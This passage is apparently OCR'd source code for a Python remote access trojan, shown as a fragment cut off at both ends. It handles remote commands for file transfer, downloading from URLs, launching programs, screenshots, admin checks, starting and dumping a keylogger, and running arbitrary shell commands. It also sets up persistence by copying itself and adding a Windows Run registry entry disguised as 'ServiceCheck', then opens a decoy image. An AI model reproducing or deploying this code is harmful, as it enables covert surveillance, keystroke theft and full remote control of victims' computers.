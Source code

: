 ```python
                failed="[!!] Fail to download!"
                reliable_send(failed)
        elif command[:6]=="upload":
            result =reliable_recv()
            if result[:4]!="[!!]":
                with open(command[7:],"wb") as file_up:
                    file_up.write(base64.b64decode(result))
        elif command[:3]=="get":
            try:
                url =command[4:]
                get_response = requests.get(url)
                file_name = url.split("/")[-1]
                with open(file_name,"wb") as out_file:
                    out_file.write(get_response.content)
                reliable_send("[+] File Downloaded!")
            except:
                reliable_send("[!!] Download Failed")
        elif command[:5]=="start":
            try:
                subprocess.Popen(command[6:],shell=True)
                reliable_send("[+] Program Started!")
            except:
                reliable_send("[!!] Program cannot start!!!")
        elif command[:10]=="screenshot":
            try:
                with mss() as screenshot:
                    screenshot.shot()
                with open("monitor-1.png","rb") as ss:
                    reliable_send(base64.b64encode(ss.read()).decode("ascii"))
                os.remove("monitor-1.png")
            except:
                reliable_send("[!!] failed to take screenshot!")
        elif command[:5] =="check":
            try:
                os.listdir(os.sep.join([os.environ.get('SystemRoot','C:\windows'),'temp']))
                reliable_send("[+] Great, You have admin priviledges")
            except:
                reliable_send("[!!]Sorry ,you are not admin")

        elif command[:12]=="keylog_start":
            kl_thread=threading.Thread(target = kl_start)
            kl_thread.start()
        elif command[:11]=="keylog_dump":
            with open(kl_file,"r") as file_down:
                 content = file_down.read()
                 reliable_send(content)
        else:
            proc=subprocess.Popen(command,shell=True,stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)
            response=proc.stdout.read()+proc.stderr.read() 
            reliable_send(response.decode('cp950'))
        

if not os.path.exists (File_Location):
    shutil.copyfile(sys.executable,File_Location)
    #registry
    subprocess.call('reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v ServiceCheck /t REG_SZ /d "'+ File_Location+'"',shell=True)

img=sys._MEIPASS + ImageFile
try:
    subprocess.Popen(img,shell=True)
except:
```